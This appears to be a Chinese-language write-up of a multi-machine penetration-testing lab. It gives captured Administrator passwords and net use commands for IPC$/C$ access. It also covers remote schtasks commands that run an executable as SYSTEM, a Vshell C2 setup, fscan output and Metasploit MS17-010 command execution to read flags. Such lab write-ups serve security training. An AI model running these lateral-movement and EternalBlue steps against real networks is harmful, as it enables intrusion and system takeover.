

这里比较抽象

Asy0y0师傅晚上突然说找到ipc连接了，在10.10.10.13的Administrator里面，然后靶机到时间重新上去突然就不见了.......

Air师傅说这个靶机的每台机器都有定时任务执行网络连接

然后我就想有没有可能这个ipc就是定时任务建立的，然后去翻10.10.10.13的定时任务，就翻到了。

前面抓到10.10.10.13的Administrator密码是cyberstrike#2024.add

### 查看本地计划任务

```
taskschd.msc
```



```
net use \10.10.10.15\ipc$ cyberstrike@2024add.com /user:administrator
net use \10.10.10.15\c$ cyberstrike@2024add.com /user:administrator
type \10.10.10.15\c$\flag.txt
```

### 查看目标机器时间

```
net time \10.10.10.15
\10.10.10.15 的当前时间是 2025/2/24 1:25:16
```

当前时间是 2025/2/24 1:25:16，我们可以根据这个信息来设置计划任务的时间。为了确保任务能够立即执行或在合理的时间内启动，您可以将任务的开始时间设置为稍微晚于当前时间几分钟。

假设您希望计划任务在当前时间之后的5分钟执行（即 2025/2/24 1:30:00），可以使用以下命令：

### 创建并立即执行计划任务

如果您的目标是让任务尽快执行，可以直接创建一个计划任务，并立即运行它。以下是具体的命令示例：

#### 创建计划任务

```
schtasks /create /tn "Run15exe" /tr "C:\15.exe" /sc once /st 01:30 /sd 2025/02/24 /S 10.10.10.15 /RU System /u administrator /p cyberstrike@2024add.com
```

* /tn "Run15exe"：指定计划任务的名称。
* `/tr "C:\\15.exe"`：指定要运行的任务路径。
* /sc once：设置任务仅运行一次。
* /st 01:30：设置任务开始时间为 01:30（即当前时间后的5分钟）。
* /sd 2025/02/24：设置任务开始日期为 2025/02/24。
* /S 10.10.10.15：指定远程系统地址。
* /RU System：以系统账户身份运行任务。
* /u administrator 和 /p cyberstrike@2024add.com：指定用于连接到远程系统的用户名和密码。

#### 立即运行计划任务

如果您希望立即运行该计划任务，而不是等到设定的时间，可以使用以下命令：

```
schtasks /run /tn "Run15exe" /S 10.10.10.15 /u administrator /p cyberstrike@2024add.com
```

### 删除计划任务

当不再需要该计划任务时，可以通过以下命令删除它：

```
schtasks /delete /tn "Run15exe" /S 10.10.10.15 /f /u administrator /p cyberstrike@2024add.com
```

### 如果您想避免手动计算时间

如果您不想手动计算稍后的时间，也可以直接创建一个计划任务并立即运行它，而不需要设置具体的时间点。这样可以确保任务尽快执行：

#### 直接创建并立即运行计划任务

```
schtasks /create /tn "Run15exe" /tr "C:\15.exe" /sc once /st 01:30 /sd 2025/02/24 /S 10.10.10.15 /RU System /u administrator /p cyberstrike@2024add.com && schtasks /run /tn "Run15exe" /S 10.10.10.15 /u administrator /p cyberstrike@2024add.com
```

## Vshell搭建代理

前面用stowaway搭建了代理，懒得做免杀了，直接起Vshell，创建13和15两个正向客户端

正向连接上线Vshell。







‍

# 第七台机器

桌面有一个账号密码没用上

```
2025.1.13 21:00
cyberweb qwe!@#123
```

## 永恒之蓝

```
C:\>fscanPlus_amd64.exe -h 10.0.0.5 -p 1-65535

  ______                   _____  _
 |  ____|                 |  __ \| |
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/
                     fscan version: 1.8.4 TeamdArk5 v1.0
start infoscan
10.0.0.5:593 open
10.0.0.5:464 open
10.0.0.5:445 open
10.0.0.5:389 open
10.0.0.5:139 open
10.0.0.5:135 open
10.0.0.5:88 open
10.0.0.5:80 open
10.0.0.5:53 open
10.0.0.5:636 open
10.0.0.5:3269 open
10.0.0.5:3268 open
10.0.0.5:5985 open
10.0.0.5:9389 open
10.0.0.5:47001 open
10.0.0.5:49664 open
10.0.0.5:49665 open
10.0.0.5:49666 open
10.0.0.5:49675 open
10.0.0.5:49672 open
10.0.0.5:49671 open
10.0.0.5:49670 open
10.0.0.5:49669 open
10.0.0.5:49668 open
10.0.0.5:49684 open
10.0.0.5:49697 open
10.0.0.5:49707 open
[*] alive ports len is: 27
start vulscan
[+] MS17-010 10.0.0.5   (Windows Server 2016 Standard 14393)
[*] NetInfo
[*]10.0.0.5
   [->]WIN-137FCI4D99A
   [->]10.0.0.5
[*] NetBios 10.0.0.5        WIN-137FCI4D99A      Windows Server 2016 Standard 14393
[*] WebTitle http://10.0.0.5:5985      code:404 len:315    title:Not Found
[*] WebTitle http://10.0.0.5:47001     code:404 len:315    title:Not Found
[*] WebTitle http://10.0.0.5           code:200 len:703    title:IIS Windows Server
[+] PocScan http://10.0.0.5 poc-yaml-active-directory-certsrv-detect 
已完成 27/27
[*] 扫描结束,耗时: 2m30.1591892s
```

发现有永恒之蓝，直接命令执行梭哈

```
proxychains msfconsole
use auxiliary/admin/smb/ms17_010_command
set RHOSTS 10.0.0.5
set COMMAND type C:\flag.txt
run
```


